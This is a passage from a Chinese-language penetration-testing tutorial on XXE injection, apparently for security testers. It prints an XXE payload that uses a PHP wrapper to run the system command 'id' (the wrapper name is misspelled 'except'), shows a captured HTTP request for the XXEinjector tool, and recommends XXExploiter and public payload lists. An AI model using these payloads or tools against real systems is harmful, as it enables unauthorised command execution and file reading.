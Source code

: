 #### 3.远程执行命令

如果是 PHP 环境下并安装 except 扩展，就可以利用它执行系统命令了。这种情况现在已经比较少见了，更多还是要利用其他漏洞来实现命令或代码执行。

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "except://id">
]>
<x>&xxe;</x>
```

### XXE 漏洞利用工具

#### 1.XXEinjector

推荐一款综合型的 XXE 漏洞利用工具[XXEinjector](https://github.com/enjoiz/XXEinjector)，用 Ruby 开发，运行前需要先安装 ruby。

通过输入请求包数据，并指定攻击行为，比如列目录、读文件等。

```
$ cat req.txt                                                                                    1 ↵
GET /mmpaymd/ordercallback HTTP/1.1
Host: 100.95.204.69:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,en;q=0.8
Cache-Control: max-age=259200
Connection: keep-alive
```

常用命令如下：  
![Drawing 3.png](https://s0.lgstatic.com/i/image2/M01/05/79/Cip5yGAABwiAda6kAAF5gVHcGUo024.png)

图 4 XXEinjector 常用命令

不过，不能完全依赖于 XXEinjector，因为之前我在测试时，发现它也有利用不成功的情况，需要自己多测试验证下。

其他更多 XXE payload，可以参考[“XML External Entity (XXE) Injection Payload List”](https://github.com/payloadbox/xxe-injection-payload-list)。

#### 2.XXExploiter

如果你记不住上面那些 XXE payload，还有个工具可以帮你生成，一款集 payload 生成与发包利用的 XXE 利用工具 [XXExploiter](https://github.com/luisfontes19/xxexploiter)，它可以启动服务提供远程 DTD 文件去实现利用。

![图片5.png](https://s0.lgstatic.com/i/image2/M01/06/D8/CgpVE2AGWfCAdbhhAAQe4lr3PMM251.png)

图 5 xxeploiter 利用方法

就功能而言，个人觉得它比 XXEinjector 更优秀，生成 payload 的功能还可以用于辅助手工测试，结合业务场景自己做一些调整。
